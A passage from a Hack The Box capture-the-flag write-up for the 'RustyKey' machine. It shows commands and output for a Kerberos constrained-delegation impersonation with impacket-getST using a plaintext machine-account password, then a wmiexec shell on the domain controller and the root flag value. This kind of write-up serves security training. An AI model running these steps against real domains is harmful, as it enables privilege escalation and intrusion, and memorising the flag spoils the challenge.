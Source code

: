 We can use the from [impacket-getST](https://github.com/paranoidninja/Pandoras-Box/blob/master/python/impacket-scripts/getST.py) to get the ticket.

```bash
└─$ impacket-getST -spn 'cifs/DC.RUSTYKEY.HTB' -impersonate backupadmin -dc-ip 10.129.4.62 -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_DC.RUSTYKEY.HTB@RUSTYKEY.HTB.ccache
```

Now we can able to activate the ticket and use [wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) to get the shell.

```bash
└─$ wmiexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin
```

![BloodHound](/assets/img/rustykey-htb-season8/bloodhound_8.png)

We can see that `backupadmin` is member of `ADMINISTRATORS@RUSTYKEY.HTB` group. <br>

```bash
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  09:23 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,799,710,208 bytes free

C:\Users\Administrator\Desktop>type root.txt
b46d79aa99ba745b343e874e675ae129
```
